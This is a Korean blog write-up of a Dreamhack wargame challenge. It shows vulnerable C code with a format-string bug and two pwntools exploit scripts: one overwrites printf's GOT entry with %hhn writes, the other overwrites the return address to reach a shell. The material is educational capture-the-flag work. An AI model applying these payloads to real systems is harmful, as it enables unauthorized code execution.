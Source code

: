 ```yaml
---
title:  "TIL: Format String Bug 2 "
excerpt: "2022.08.10 TIL ✍"
toc: true
toc_sticky: true

categories:
  - TIL
  - Hacking
---
```


## Wargame: [basic_exploitation_003](https://dreamhack.io/wargame/challenges/5)

문제의 소스 코드는 아래와 같다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {
    char *heap_buf = (char *)malloc(0x80);
    char stack_buf[0x90] = {};

    initialize();

    read(0, heap_buf, 0x80);
    sprintf(stack_buf, heap_buf);
    printf("ECHO : %s\n", stack_buf);

    return 0;
}
```

### Vulnerability Scanning

- `checksec`
    
	<p align="center">
		<a href="/assets/images/TIL220810/Untitled.png">
			<img src="/assets/images/TIL220810/Untitled.png" width="300">
   		 </a>
	</p>     
- `sprintf(stack_buf, heap_buf)`에서 사용자가 입력한 `heap_buf`를 사용하므로, fsb가 일어날 수 있다.
- `get_shell()`을 실행하면 shell을 획득할 수 있다.

### Exploit

`sprintf(stack_buf, heap_buf)`에서 일어나는 **fsb**를 이용해 `printf`**의 GOT entry를** `get_shell`**의 주소로 변경**해 shell을 획득하고자 했다.

```python
from pwn import *

#p = process("./basic_exploitation_003")
p = remote("host3.dreamhack.games", 13267)
e = ELF("./basic_exploitation_003")

get_shell = 0x08048669
printf_got = e.got["printf"]

payload = p32(printf_got)
payload += p32(printf_got + 1)
payload += p32(printf_got + 2)
payload += p32(printf_got + 3)

s = "%{}c".format(0x69 - 0x10)
s += "%1$hhn"
s += "%{}c".format(0x86 - 0x69)
s += "%2$hhn"
s += "%{}c".format(0x04 - 0x86 + 0x100)
s += "%3$hhn"
s += "%{}c".format(0x08 - 0x104 + 0x100)
s += "%4$hhn"

payload += s.encode()

p.sendline(payload)

p.interactive()
```

- 처음에는 payload를 아래와 같이 작성하려 했으나, `sprintf`에서 **segmentation fault**가 발생했다. 아마도 `stack_buf`**에 작성되는 문자열의 길이가 너무 길어 stack을 넘어서 write 권한이 없는 공간에까지 침범**해서 seg fault가 발생한 것으로 보여 이 길이를 줄이기 위해 **한 바이트씩 입력**하도록 exploit code를 수정했다.
    
    ```python
    payload = p32(printf_got)
    payload += p32(printf_got + 2)
    
    s = "%{}c".format(0x8669 - 0x8)
    s += "%1$hn"
    s += "%{}c".format(0x0804 - 0x8669 + 0x10000)
    s += "2$hn"
    
    payload += s.encode()
    ```
    
    한 가지 의문인 점은 gdb에서 `vmmap`, 혹은 `info proc mappings`를 통해 **stack의 크기**를 확인해보면 아래와 같이 **0x21000**이라고 뜨는데, 내가 위 payload를 통해 stack에 입력하는 데이터의 양은 약 0x10804 byte이므로 stack의 size보다 작다는 점이다. 따라서 **이 데이터의 양이 stack의 범위를 벗어나지 않으므로 seg fault가 발생하지 않아야 한다**고 생각했다.
    
    <p align="center">
		<a href="/assets/images/TIL220810/Untitled (1).png">
			<img src="/assets/images/TIL220810/Untitled (1).png" width="600">
  	  </a>
	</p> 
    
    궁금증을 해결하기 위해 `sprintf`를 실행할 시점의 $esp의 값을 gdb로 확인해보았다. $esp의 값은 0xffffd2b8임을 확인할 수 있다. `vmmap`, 혹은 `info proc mappings`로 확인한 stack의 end addr (bottom)의 주소는 0xffffe000이므로, **현재 할당된 stack의 size는 0xd48 byte밖에 되지 않음**을 확인할 수 있다. 따라서 `vmmap`**에서 출력된 stack의 size는 사실 stack의 최대 size**인 것이고, **실제 stack의 size는 내가 작성했던 데이터의 양보다 훨씬 작았음**을 확인할 수 있었다.
    

### 두 번째 풀이

`sprintf`에서 사용자가 입력한 값을 stack에 작성한다는 사실을 이용해 **stack 상의 return address를 overwrite**할 수 있다.

```python
from pwn import *

#p = process("./basic_exploitation_003")
p = remote("host3.dreamhack.games", 13267)
e = ELF("./basic_exploitation_003")

get_shell = e.symbols["get_shell"]

payload = "%{}c".format(0x9c).encode() + p32(get_shell)

p.sendline(payload)

p.interactive()
```

- gdb를 통해 **stack의 구조**를 아래와 같이 파악할 수 있다.
    
    
    | stack_buf | 0x90 |
    | --- | --- |
    | heap_buf의 주소 | 0x4 |
    | dummy | 0x8 |
    | return address | 0x4 |
    
    따라서 0x90 + 0x4 + 0x8 = **0x9c byte만큼의 dummy data**를 작성하고, 그 뒤에 `get_shell`**의 주소**를 작성하면 된다.
    
    이때 **heap_buf의 size가 0x80으로 제한**되어 있으므로, 직접 0x9c byte만큼의 데이터를 작성하지 않고, **format string을 활용**해 작성한다. (`”%{}c”.format(0x9c)`)
